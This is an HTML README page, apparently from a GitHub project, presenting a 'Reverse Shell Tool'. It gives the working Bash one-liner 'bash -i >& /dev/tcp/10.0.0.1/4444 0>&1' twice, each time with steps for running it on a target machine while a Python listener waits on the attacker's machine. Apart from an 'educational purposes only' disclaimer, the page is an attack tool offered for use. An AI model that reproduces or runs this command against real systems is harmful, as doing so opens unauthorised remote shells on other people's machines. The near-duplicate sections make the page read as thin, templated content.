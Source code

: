 <html>
 <head>
 
 </head>
 <body>
 <h1>Reverse Shell Tool</h1>
 <p>This is a simple reverse shell tool implemented in Bash and Python. It allows you to create a connection to a remote machine and start a Bash shell.</p>
 <h2>Bash Reverse Shell</h2>
 <p>The Bash reverse shell creates a connection to a remote machine and starts a Bash shell. The IP address and port number are specified in the code as hard-coded values.</p>
 <p>Here is an example of how to use the Bash reverse shell:</p>
 <ol>
 <li>Start the Python listener on the attacker's machine:</li>
 <code>python listener.py</code>
 <li>Run the Bash reverse shell on the target machine, specifying the IP address and port number of the attacker's machine:</li>
 <code>bash -i >& /dev/tcp/10.0.0.1/4444 0>&1</code>
 </ol>
 <h2>Python Listener</h2>
 <p>The Python listener waits for incoming connections from the Bash reverse shell and starts an interactive session with the remote machine.</p>
 <p>Here is an example of how to use the Python listener:</p>
 <ol>
 <li>Run the Python listener on the attacker's machine:</li>
 <code>python listener.py</code>
 <li>Run the Bash reverse shell on the target machine, specifying the IP address and port number of the attacker's machine:</li>
 <code>bash -i >& /dev/tcp/10.0.0.1/4444 0>&1</code>
 </ol>
 <h2>Disclaimer</h2>
 <p>This tool is intended for educational purposes only. Using it for illegal or unethical activities is strictly prohibited. The author is not responsible for any damage or harm caused by the use of this tool.</p>
 <h2>License</h2>
 <p>This tool is released under the MIT License. Feel free to use and modify it as you see fit.</p>
 <h2>Contact</h2>
 <p>If you have any questions or comments, feel free to contact me at <a href="mailto:johndoe@example.com">johndoe@example.com</a>.</p>
 </body>
</html>
